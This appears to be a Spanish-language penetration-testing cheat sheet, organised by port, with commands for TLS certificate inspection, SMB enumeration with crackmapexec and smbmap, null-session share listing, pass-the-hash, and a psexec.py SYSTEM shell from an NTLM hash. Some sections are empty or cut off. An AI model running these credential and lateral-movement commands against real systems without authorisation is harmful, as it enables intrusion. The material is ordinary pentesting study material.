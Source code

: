 

<br><br>
## 135 MSRPC


<br><br>
## 443 HTTPS (Hypertext Transfer Protocol Secure)
Inspeccionar el certificado en busca de información relevante, como si se esta aplicando virtual hosting "Common Name" o para ver que emails estan registrados.
```
openssl s_client -connect <ip-address>:443
```


<br><br>
## 139/445 SMB (Server Message Block)
Protocolo de red que controla el acceso a archivos y directorios en Microsoft Windows. Tambien permite el acceso a recursos compartidos en la red como impresoras, routers e interfaces de red abiertas.
<br>
<br>
Con este comando puedes ver el nombre de la máquina víctima (Si es controlador del dominio "DC-Admin"), la versión de windows que se esta utilizando y si el SMB esta firmado.
```
crackmapexec smb <ip-address>
```
<br>
Una vez obtenido un usario y contraseña puedes ver si son válidos a nivel de sistema si te pone un [+] en el output.
```
crackmapexec smb <ip-address> -u 'user' -p 'password'
```
<br>
Listar los recursos compartidos que existen a nivel de red empleando un null session sino no se cuenta con credenciales válidas.
```
crackmapexec smb <ip-address> -u 'null' -p ' ' --shares
```
<br>
Hacer PassTheHash para comprobar que el hash que se tiene es del usuario administrator y así poder ganar acceso al sistema sin proporcionar la contraseña con la herramienta psexec.py
```
crackmapexec smb <ip-address> -u 'Administrator' -H ':<hash>'
```
<br>
Si ya tienes el hash NTLM ejecuta el siguiente comando y obtendras una consola como el usuario nt/authority/system.
```
psexec.py WORKGROUP/Administrator@<ip-address> -hashes :<HashNTLM>
```
<br>
Listar los recursos compartidos que hay a nivel de red.
```
smbmap -H <ip-address>
# -H -> Especificar la dirección IP.
```
<br>
Listar los recursos compartidos haciendo uso de un null session.
```
smbmap -H <ip-address> -u 'null'
# -u -> Indicar un usuario.
```
<br>
Listar los recursos compartidos teniendo un usuario y una contraseña validos.
```
```